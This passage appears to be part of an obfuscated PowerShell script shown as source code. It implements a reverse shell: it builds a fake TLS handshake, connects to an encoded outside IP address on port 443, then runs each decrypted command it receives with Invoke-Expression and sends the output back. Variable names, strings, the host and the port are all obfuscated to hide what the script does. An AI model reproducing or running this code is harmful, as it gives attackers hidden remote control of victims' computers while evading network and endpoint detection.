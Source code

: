```powershell
                                    0x00,0x0d,0x00,0x1e,0x00,0x1c,0x04,0x03,0x05,0x03,0x06,0x03,0x08,0x07,0x08,0x08,0x08,0x09,0x08,0x0a,0x08,0x0b,0x08,0x04,0x08,0x05,0x08,0x06,0x04,0x01,0x05,0x01,0x06,0x01,
                                      0x00,0x2b,0x00,0x03,0x02,0x03,0x04,
                             0x00,0x2d,0x00,0x02,0x01,0x01,
                                   0x00,0x33,0x00,0x26,0x00,0x24,0x00,0x1d,0x00,0x20,
                          0x35,0x80,0x72,0xd6,0x36,0x58,0x80,0xd1,0xae,0xea,0x32,0x9a,0xdf,0x91,0x21,0x38,0x38,0x51,0xed,0x21,0xa2,0x8e,0x3b,0x75,0xe9,0x65,0xd0,0xd2,0xcd,0x16,0x62,0x54)
           $BB88BB8BB88BB88B = $B8BB88BBBB8B88B8 + $BBBB88B8BB88B88B
          $BBBB8B88888888B8 = [byte[]] ([BitConverter]::GetBytes([UInt16]$BB88BB8BB88BB88B.Length))
         [Array]::Reverse($BBBB8B88888888B8)
     $B8888BBB888B8888 = @(0x03,0x03,0x00,0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08,0x09,0x0a,0x0b,0x0c,
                        0x0d,0x0e,0x0f,
               0x10,0x11,0x12,0x13,0x14,0x15,0x16,0x17,
                        0x18,
               0x19,0x1a,0x1b,0x1c,0x1d,0x1e,0x1f,0x20,0xe0,0xe1,
                   0xe2,0xe3,0xe4,0xe5,0xe6,0xe7,0xe8,0xe9,0xea,0xeb,0xec,0xed,0xee,0xef,0xf0,0xf1,0xf2,0xf3,0xf4,0xf5,0xf6,0xf7,0xf8,0xf9,0xfa,
                     0xfb,0xfc,0xfd,0xfe,0xff,0x00,0x08,0x13,0x02,0x13,0x03,0x13,0x01,0x00,0xff,0x01,0x00)
          $BB8B8BBBB88B8B8B = $B8888BBB888B8888 + $BBBB8B88888888B8 + $BB88BB8BB88BB88B
             $BB8BBB88B8B8B888 = [byte[]] ([BitConverter]::GetBytes($BB8B8BBBB88B8B8B.Length))
        [Array]::Reverse($BB8BBB88B8B8B888)
     $BBB88BBB888B8B8B = @(0x01) + $BB8BBB88B8B8B888[1..3] + $BB8B8BBBB88B8B8B
        $B88B888B8BB8BBBB = [byte[]] ([BitConverter]::GetBytes([UInt16]$BBB88BBB888B8B8B.Length))
         [Array]::Reverse($B88B888B8BB8BBBB)
                      $BBB888888BB88B88 = @(0x16,
                   0x03, 0x01) + $B88B888B8BB8BBBB + $BBB88BBB888B8B8B
       return ,$BBB888888BB88B88
                 }
 $BBBB8BBBBBB8B88B = New-Object System.Net.Sockets.TcpClient
                    $BBBB8BBBBBB8B88B.Connect((IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(5,7,25,2,25,3,15,25,5,7,7) -BB8BB8B8BBB8B8B8 55), ((50 * 9) - (11 * 2)) + [math]::Pow(2, 3) + [math]::Sqrt(49))
      $BBBB888888B88BBB = $BBBB8BBBBBB8B88B.GetStream()
 $BB88888BB8B8B8BB = llIIlllllIIIlllI
        $BBBB888888B88BBB.Write($BB88888BB8B8B8BB, 0, $BB88888BB8B8B8BB.Length)
        $B8B888BB8B8888BB = New-Object byte[] 16384
          $BBBB888888B88BBB.Read($B8B888BB8B8888BB, 0, $B8B888BB8B8888BB.Length) | Out-Null
                  while ($true) {
              $B8B888BB8B8888BB = New-Object byte[] 16384
      try {
                     $B888BBB8B8B88B8B = $BBBB888888B88BBB.Read($B8B888BB8B8888BB, 0, 16384)
                 } catch {
                    break
              }
                        $BBBB8888BBBBB8BB = $B8B888BB8B8888BB[5..($B888BBB8B8B88B8B - 1)]
                $B8B88B8BB888BBB8 = [System.Text.Encoding]::UTF8.GetString((lIIIlllIIIIllllI -B8BBB8B8BB8BBB88 $BBB88B8B888BBB88 -BBB8BBB8B88B88B8 $BBBB8888BBBBB8BB))
                         if ($B8B88B8BB888BBB8 -eq (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(109,112,97,124) -BB8BB8B8BBB8B8B8 8)) { break }
                      try {
                             $BB88B8B8BBBB888B = (Invoke-Expression $B8B88B8BB888BBB8 2>&1) | Out-String
                      } catch {
                   $BB88B8B8BBBB888B = (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(186,141,141,144,141) -BB8BB8B8BBB8B8B8 255)
      }
          $BBBB8BB88BB888B8 = lllIIlIIlIllllll -B888BBBBB8B8B8BB $BB88B8B8BBBB888B.Trim()
                       $BBBB888888B88BBB.Write($BBBB8BB88BB888B8, 0, $BBBB8BB88BB888B8.Length)
            }
              $BBBB888888B88BBB.Close()
                $BBBB8BBBBBB8B88B.Close()
```